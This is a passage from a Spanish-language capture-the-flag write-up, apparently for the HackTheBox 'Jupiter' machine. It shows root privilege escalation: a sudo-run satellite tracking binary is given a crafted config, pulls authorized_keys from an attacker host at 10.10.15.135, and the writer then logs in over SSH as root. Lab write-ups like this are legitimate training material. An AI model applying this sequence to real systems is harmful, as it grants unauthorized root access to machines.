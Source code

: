 ```json
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}

```
{: file="/tmp/config.json"}

Y se ejecutó de forma adecuada. Al ejecutar el comando `sudo /usr/local/bin/sattrack`, se debería obtener la siguiente salida.

```bash
jovian@jupiter:/tmp$ sudo  /usr/local/bin/sattrack
Satellite Tracking System
Get:0 http://10.10.15.135:8081/authorized_keys
Satellites loaded
No sats
```
{: .nolineno}

Por lo que se puede obtener acceso al servidor gracias a la llave **id_rsa**.

```bash
ssh -i id_rsa root@10.10.11.216
```
{: .nolineno}

Y con eso se obtiene acceso total a la máquina :3 .


